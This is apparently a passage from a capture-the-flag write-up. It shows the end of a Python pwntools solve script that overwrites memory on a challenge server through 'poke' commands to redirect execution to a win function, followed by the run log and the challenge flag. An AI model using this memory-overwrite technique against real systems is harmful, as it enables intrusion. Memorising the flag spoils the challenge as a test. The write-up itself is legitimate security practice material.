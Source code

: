 ```python
wini = maini + OFFSET_WIN
winb = int.to_bytes(wini, 8, 'little')

for i in range(OFFSET_MAIN-88, OFFSET_MAIN+192, 8):
	for j in range(0, 8, 1):
		r = b"poke " + str(i+j).encode() + b" " + str(winb[j]).encode()
		print(r)
		p.sendline(r)
		print(p.recvline())

p.sendline(b"quit")
p.interactive()
```

After 1-minute wait for the spray to finish, we obtain the flag:
```
$ python3 solve.py 
[+] Opening connection to 0.cloud.chals.io on port 33623: Done
b'Enter a string:\n'
b'Enter command:\n'
b'peek 568'
b'-64\n'
192
b'Enter command:\n'
b'peek 569'
b'28\n'
28
...
b'Enter command:\n'
b'poke 755 22'
b'Enter command:\n'
b'poke 756 181'
b'Enter command:\n'
b'poke 757 85'
b'Enter command:\n'
b'poke 758 0'
b'Enter command:\n'
b'poke 759 0'
b'Enter command:\n'
[*] Switching to interactive mode
Bye bye!
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
TBTL{p0k1N6_4r0und_V748135_15_fun_94286128937}
```